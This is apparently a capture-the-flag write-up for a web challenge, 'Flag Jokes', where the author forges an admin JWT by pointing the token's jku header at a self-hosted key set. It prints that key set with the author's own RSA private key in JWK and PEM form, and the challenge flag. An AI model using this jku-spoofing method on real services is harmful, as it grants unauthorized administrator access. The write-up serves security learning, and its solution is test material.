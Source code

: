 **FLAG JOKES** 


**Category:** Web
**Concepts:** jwt, jwks

**Problem Statement:**
Want to hear a joke? Want the flag? How about both? Why don't YOU tell me a joke!

**Hints**
None


![image](../images/fj1.png)


The first thing I tried to do was to login as an admin, which was disabled. So I logged in as a random user and took a look at the generated cookies. It had generated this jwt:


```json
[
    {
        "alg": "RS256",
        "jku": "http://localhost:5000/static/jwks.json",
        "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc"
    }

    {
        "username": "plssubscribe"
    }
]
```


It was evident that the website used the set url from the url `http://localhost:5000/static/jwks.json`. I took a look at /static/jwks.json and found the key set. Then I tried to generate a public key from this jwks and forge the jwt by converting the algorithm to HS256 using only the publickey, but no luck.
So I uploaded my own jwks to a url(to which I knew the public and private key pair) and made the jku to be that url. Then I forged my username to be 'admin' through the public and private key pair and got admin access and hence the flag.


My jwks:
```json
{
  "keys": [
    {
    "kty": "RSA",
    "n": "33TqqLR3eeUmDtHS89qF3p4MP7Wfqt2Zjj3lZjLjjCGDvwr9cJNlNDiuKboODgUiT4ZdPWbOiMAfDcDzlOxA04DDnEFGAf-kDQiNSe2ZtqC7bnIc8-KSG_qOGQIVaay4Ucr6ovDkykO5Hxn7OU7sJp9TP9H0JH8zMQA6YzijYH9LsupTerrY3U6zyihVEDXXOv08vBHk50BMFJbE9iwFwnxCsU5-UZUZYw87Uu0n4LPFS9BT8tUIvAfnRXIEWCha3KbFWmdZQZlyrFw0buUEf0YN3_Q0auBkdbDR_ES2PbgKTJdkjc_rEeM0TxvOUf7HuUNOhrtAVEN1D5uuxE1WSw",
    "e": "AQAB",
    "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc",
    "d": "DjU54mYvHpICXHjc5-JiFqiH8NkUgOG8LL4kwt3DeBp9bP0-5hSJH8vmzwJkeGG9L79EWG4b_bfxgYdeNX7cFFagmWPRFrlxbd64VRYFawZHRJt-2cbzMVI6DL8EK4bu5Ux5qTiV44Jw19hoD9nDzCTfPzSTSGrKD3iLPdnREYaIGDVxcjBv3Tx6rrv3Z2lhHHKhEHb0RRjATcjAVKV9NZhMajJ4l9pqJ3A4IQrCBl95ux6Xm1oXP0i6aR78cjchsCpcMXdP3WMsvHgTlsZT0RZLFHrvkiNHlPiil4G2_eHkwvT__CrcbO6SmI_zCtMmypuHJqcr-Xb7GPJoa64WoQ",
    "p": "8K33pX90XX6PZGiv26wZm7tfvqlqWFT03nUMvOAytqdxhO2HysiPn4W58OaJd1tY4372Qpiv6enmUeI4MidCie-s-d0_B6A0xfhU5EeeaDN0xDOOl8yN-kaaVj9b4HDR3c91OAwKpDJQIeJVZtxoijxl-SRx3u7Vs_7meeSpOfE",
    "q": "7a5KnUs1pTo72A-JquJvIz4Eu794Yh3ftTk_Et-83aE_FVc6Nk-EhfnwYSNpVmM6UKdrAoy5gsCvZPxrq-eR9pEwU8M5UOlki03vWY_nqDBpJSIqwPvGHUB16zvggsPQUyQBfnN3N8XlDi12n88ltvWwEhn1LQOwMUALEfka9_s",
    "dp": "DB9nGuHplY_7Xv5a5UCs5YgxkWPtJFfbIZ1Zr-XHCCY09JIWReOGQG226OhjwixKtOK_OqmAKtMKM9OmKviJRHNbDhbTxumN3u7cL8dftjXpSryiEQlPmWyW94MneI2WNIrvh4wruQuDt8EztgOiDFxwcnUgey8iend7WmZnE7E",
    "dq": "O-bSTUQ4N_UuQezgkF3TDrnBraO67leDGwRbfiE_U0ghQvqh5DA0QSPVzlWDZc9KUitvj8vxsR9o1PW9GS0an17GJEYuetLnkShKK3NWOhBBX6d1yP9rVdH6JhgIJEy_g0Suz7TAFiFc8i7JF8u4QJ05C8bZAMhOLotqftQeVOM",
    "qi": "InfGmkb2jNkPGuNiZ-mU0-ZrOgLza_fLL9ErZ35jUPhGFzdGxJNobklvsNoTd-E2GAU41YkJh24bncMLvJVYxHHA5iF7FBWx1SvpEyKVhhnIcuXGD7N5PbNZzEdmr9C6I7cPVkWO-sUV7zfFukexIcANmsd_oBBGKRoYzP5Tti4"
    }
   ]
}
```

Keys:

```txt
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA33TqqLR3eeUmDtHS89qF
3p4MP7Wfqt2Zjj3lZjLjjCGDvwr9cJNlNDiuKboODgUiT4ZdPWbOiMAfDcDzlOxA
04DDnEFGAf+kDQiNSe2ZtqC7bnIc8+KSG/qOGQIVaay4Ucr6ovDkykO5Hxn7OU7s
Jp9TP9H0JH8zMQA6YzijYH9LsupTerrY3U6zyihVEDXXOv08vBHk50BMFJbE9iwF
wnxCsU5+UZUZYw87Uu0n4LPFS9BT8tUIvAfnRXIEWCha3KbFWmdZQZlyrFw0buUE
f0YN3/Q0auBkdbDR/ES2PbgKTJdkjc/rEeM0TxvOUf7HuUNOhrtAVEN1D5uuxE1W
SwIDAQAB
-----END PUBLIC KEY-----

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA33TqqLR3eeUmDtHS89qF3p4MP7Wfqt2Zjj3lZjLjjCGDvwr9
cJNlNDiuKboODgUiT4ZdPWbOiMAfDcDzlOxA04DDnEFGAf+kDQiNSe2ZtqC7bnIc
8+KSG/qOGQIVaay4Ucr6ovDkykO5Hxn7OU7sJp9TP9H0JH8zMQA6YzijYH9LsupT
errY3U6zyihVEDXXOv08vBHk50BMFJbE9iwFwnxCsU5+UZUZYw87Uu0n4LPFS9BT
8tUIvAfnRXIEWCha3KbFWmdZQZlyrFw0buUEf0YN3/Q0auBkdbDR/ES2PbgKTJdk
jc/rEeM0TxvOUf7HuUNOhrtAVEN1D5uuxE1WSwIDAQABAoIBAA41OeJmLx6SAlx4
3OfiYhaoh/DZFIDhvCy+JMLdw3gafWz9PuYUiR/L5s8CZHhhvS+/RFhuG/238YGH
XjV+3BRWoJlj0Ra5cW3euFUWBWsGR0SbftnG8zFSOgy/BCuG7uVMeak4leOCcNfY
aA/Zw8wk3z80k0hqyg94iz3Z0RGGiBg1cXIwb908eq6792dpYRxyoRB29EUYwE3I
wFSlfTWYTGoyeJfaaidwOCEKwgZfebsel5taFz9Iumke/HI3IbAqXDF3T91jLLx4
E5bGU9EWSxR675IjR5T4opeBtv3h5ML0//wq3GzukpiP8wrTJsqbhyanK/l2+xjy
aGuuFqECgYEA8K33pX90XX6PZGiv26wZm7tfvqlqWFT03nUMvOAytqdxhO2HysiP
n4W58OaJd1tY4372Qpiv6enmUeI4MidCie+s+d0/B6A0xfhU5EeeaDN0xDOOl8yN
+kaaVj9b4HDR3c91OAwKpDJQIeJVZtxoijxl+SRx3u7Vs/7meeSpOfECgYEA7a5K
nUs1pTo72A+JquJvIz4Eu794Yh3ftTk/Et+83aE/FVc6Nk+EhfnwYSNpVmM6UKdr
Aoy5gsCvZPxrq+eR9pEwU8M5UOlki03vWY/nqDBpJSIqwPvGHUB16zvggsPQUyQB
fnN3N8XlDi12n88ltvWwEhn1LQOwMUALEfka9/sCgYAMH2ca4emVj/te/lrlQKzl
iDGRY+0kV9shnVmv5ccIJjT0khZF44ZAbbbo6GPCLEq04r86qYAq0woz06Yq+IlE
c1sOFtPG6Y3e7twvx1+2NelKvKIRCU+ZbJb3gyd4jZY0iu+HjCu5C4O3wTO2A6IM
XHBydSB7LyJ6d3taZmcTsQKBgDvm0k1EODf1LkHs4JBd0w65wa2juu5XgxsEW34h
P1NIIUL6oeQwNEEj1c5Vg2XPSlIrb4/L8bEfaNT1vRktGp9exiRGLnrS55EoSitz
VjoQQV+ndcj/a1XR+iYYCCRMv4NErs+0wBYhXPIuyRfLuECdOQvG2QDITi6Lan7U
HlTjAoGAInfGmkb2jNkPGuNiZ+mU0+ZrOgLza/fLL9ErZ35jUPhGFzdGxJNobklv
sNoTd+E2GAU41YkJh24bncMLvJVYxHHA5iF7FBWx1SvpEyKVhhnIcuXGD7N5PbNZ
zEdmr9C6I7cPVkWO+sUV7zfFukexIcANmsd/oBBGKRoYzP5Tti4=
-----END RSA PRIVATE KEY-----
```


**FLAG:** flag{whoops_typo_shoulda_been_flag_jwks}



